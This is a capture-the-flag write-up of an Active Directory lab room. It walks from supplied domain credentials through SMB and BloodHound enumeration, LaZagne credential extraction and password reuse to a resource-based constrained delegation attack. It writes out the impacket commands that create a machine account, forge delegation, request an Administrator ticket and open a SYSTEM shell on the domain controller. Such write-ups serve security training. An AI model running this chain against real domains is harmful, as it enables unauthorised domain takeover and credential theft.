



# Questions

What's the Administrator flag?

---

# Confirm the starting access

I started the room with an assumed breach scenario, so the first goal was to record the provided domain credential and define the starting point for the attack path.
 
**Information Provided**

```text
Domain user: ctf.local\j.smith
Password: JSmith@IT2024
```


# Solution

---

## Recon and Shared Folders

1. Start by scanning with `nmap` 

It shows ports  **88, 139, 445 and 3389**  are open, which means it allows access via `RDP`

2. List shared folders and check which ones we can access using `smbclient` and `smbmap` 






But the download folder doesn't contain any files.


---

## BloodHound Enumeration

3. `BloodHound` enumeration


I collect the domain information with the provided `j.smith` account. This will help us check permissions and find a path to higher access later.

---

## RDP Access and KeePass Credentials

4. Connect to `RDP` using `Remmina`

5. Found a `Database.kdbx` file


6. Use the `LaZagne` tool to extract credentials from **user j.smith**



`LaZagne` found a saved **KeePass** password for `Database.kdbx`. So, let's use this to open the database and check the accounts inside.


---

## Find More Users and Check Password Reuse

7. In **Keepass**, we found an interesting account, `t.jones`, with password `Helpdesk01!` 
	

so, let's use `nxc smb DC01.ctf.local -u t.jones -p 'Helpdesk01!' --shares`
to check authentication as `t.jones`



but `t.jones` doesn't get more permissions than user `j.smith`



Use this command to find more users, and I found `r.williams` - Help desk senior

---
I try the same password as `t.jones`, and it seems like they use the same password.




---

## RBCD Attack

and after checking the bloodhound enumeration, this user has `AddAllowedToAct` permission over the DC, which allows us to perform a **RBCD** attack by adding a controlled computer account to the DC's `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute.

We create a new machine account `ATTACKERSYSTEM$` in the domain using `r.williams`'s credentials, which we will leverage as the delegated principal in the **RBCD** attack.

```
impacket-addcomputer -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Pwned123@!' -dc-host DC01 -domain-netbios ctf.local 'ctf.local/r.williams:Helpdesk01!'
```



We write our controlled `ATTACKERSYSTEM$` account into the DC's `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute, configuring Resource-Based Constrained Delegation so that `ATTACKERSYSTEM$` is now trusted to impersonate any user to the Domain Controller.

```
impacket-rbcd -dc-ip 10.112.190.54 -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'DC01$' -action 'write' 'ctf.local/r.williams:Helpdesk01!'
```




---

## Request an Administrator Ticket

Using our `ATTACKERSYSTEM$` machine account, we abuse S4U2Self/S4U2Proxy to request a Kerberos service ticket for the `cifs/DC01.ctf.local` SPN while impersonating the `Administrator`, granting us privileged access to the DC's file system.

```
impacket-getST -spn 'cifs/DC01.ctf.local' -impersonate 'Administrator' 'ctf.local/ATTACKERSYSTEM$:Pwned123@!'
```



---

## Get a SYSTEM Shell and the Flag

We export the `KRB5CCNAME` environment variable to point Impacket at the newly obtained `.ccache` file, so subsequent tools authenticate using the Administrator's Kerberos ticket instead of a password.

`export KRB5CCNAME=Administrator@cifs_DC01.ctf.local@CTF.LOCAL.ccache`

Using the cached ticket, we use `smbexec.py` to authenticate to `DC01` over SMB with Kerberos `-k -no-pass` as the Administrator and spawn a semi-interactive SYSTEM shell on the Domain Controller. We find the flag on the Administrator's Desktop.


`smbexec.py -k -no-pass ctf.local/Administrator@DC01.ctf.local`



And now we can find `flag.txt` on the Administrator's desktop





*DONE!!!*

---
